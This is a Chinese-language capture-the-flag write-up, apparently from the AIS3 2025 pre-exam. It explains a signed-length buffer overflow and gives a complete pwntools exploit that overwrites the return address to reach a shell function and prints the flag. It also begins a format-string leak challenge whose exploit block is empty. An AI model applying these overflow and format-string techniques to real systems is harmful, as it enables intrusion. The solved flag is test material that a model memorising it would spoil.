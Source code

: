 ```!
Instancer 並非題目的一部分，請勿攻擊 Instancer。發現問題請回報 admin

Author: pwn2ooown
```
### 思路
* 使用 IDA 分析後，可知 `main` function 會在詢問 "你願意把剩餘的人生交給我嗎?" 並判斷輸入值是否為 yes 之後，輸出 "告訴我你的名字的長度:" 並呼叫 `read_int8()` 讀入整數。
* 最後 `read(0, buf, int8)` 讀入 `int8` 大小的內容，此時若 `int8` 為 -1，`read` 將讀入 `size_t` 的最大值。
![image](https://cdn.xiung.me/ais3_pre_exam_2025/mujica_1.png)
* 在 IDA 中可發現一個取得 shell 的函式。
![image](https://cdn.xiung.me/ais3_pre_exam_2025/mujica_2.png)
* 取得此函式的記憶體位址 `0x401256`。
![image](https://cdn.xiung.me/ais3_pre_exam_2025/mujica_3.png)
* 注入約 200 字的內容，直到覆蓋 `$rsp` 並計算 offset 為 168。
![image](https://cdn.xiung.me/ais3_pre_exam_2025/mujica_4.png)
* 將 offset 及要將 rsp 覆蓋到指定的記憶體位址寫入，如 exploit 程式。

### exploit
```python!
from pwn import *

#r = process('./chal')
r = remote('chals1.ais3.org', 60202)

r.recvuntil(')')
r.recvline()
r.sendline(b"yes")
r.sendlineafter("度: ", "-1")
r.sendlineafter("字: ", b"A"*168 + p64(0x0000000000401256))
r.interactive()
r.close()
```
![image](https://cdn.xiung.me/ais3_pre_exam_2025/mujica_5.png)
Flag: `AIS3{Ave Mujica🎭將奇蹟帶入日常中🛐(Fortuna💵💵💵)...Ave Mujica🎭為你獻上慈悲憐憫✝️(Lacrima😭🥲💦)..._810f41aaae33fd68ef44d707078be799}`

---

## Format Number
### 題目
```!
Print the number in the format you like !

nc chals1.ais3.org 50960


Author : Curious
```
### 思路
* 由原始碼可知，"What format do you want ?" 後讀入的值僅限為數字或符號。
* 原始碼 `printf(buffer, "Welcome", "~~~", number)` 的前三個參數都在暫存器上，若沒有提供參數則會從 stack 中抓取。
* 開頭 `%3$` 與結尾 `d` 代表在第三個參數上 (number) 顯示，並以 10 進制輸出。 
* 使用 `.*{20}$`，意思為將第 20 個參數的值作為數字的寬度。
* 算出回傳數字的長度即為第 N 個參數的 ASCII 值。
* 逐次嘗試後發現第 20 個參數開始有 flag 的特徵，故如 exploit 程式。
### exploit
```python!
```